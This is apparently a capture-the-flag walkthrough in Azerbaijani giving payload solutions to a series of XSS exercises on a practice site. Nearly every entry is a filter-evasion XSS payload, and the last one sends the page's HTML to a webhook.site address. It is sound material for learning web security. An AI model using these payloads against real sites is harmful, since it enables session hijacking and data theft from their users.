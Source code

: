 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(```<script>success()</script>```) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.```</script><script>success()</script>```


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.```<scrscriptipt>alert(1)</scrscriptipt> ```


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.```<ScRiPt>success()</sCriPt>  ```      

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.```<ScRiPt>success()</sCriPt>```

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik.        ```<image src =q onerror=success()>```

Exercise 7 – Between a Rock And a Hard Place
        ```<button onClick="success()">Submit</button>```

Exercise 8 – Angle of Death
        ```<!--<img src="--><img src=x onerror=javascript:success()//">```

Exercise 10 – In the Wrong Place at the Wrong Time
       ``` "<img src=/ onerror="success()" />```

Exercise 11 – You Can't Win 'em All
      ```  "" onerror="success()"```

Exercise 12 – When All is Said and Done
       ``` ' onload=success()```

Exercise 14 – Here Today and Gone Tomorrow
axtarış yerində hər hansı bir şey axtarırıq.Sonra dili dəyişdiririk.Url də language-i dəyişdiririk.Səyfənin page source -nu açırıq.b
Burda languagenin dəyişdiyini görürük.Bu xss inyeksiya açığının ola biləcəyi deməkdir
```http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()```

Exercise 15 – The Early Bird Catches the Worm
       ``` </script> <img src=/ onerror=success() /> <script>```

Exercise 16 – Tying Up Loose Ends
       ``` <<<///scrip<<//script>>t>>><img src =q onerror=success()>```

Exercise 17 – Take a Page Out of Their Book
        ```function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>') ```
           
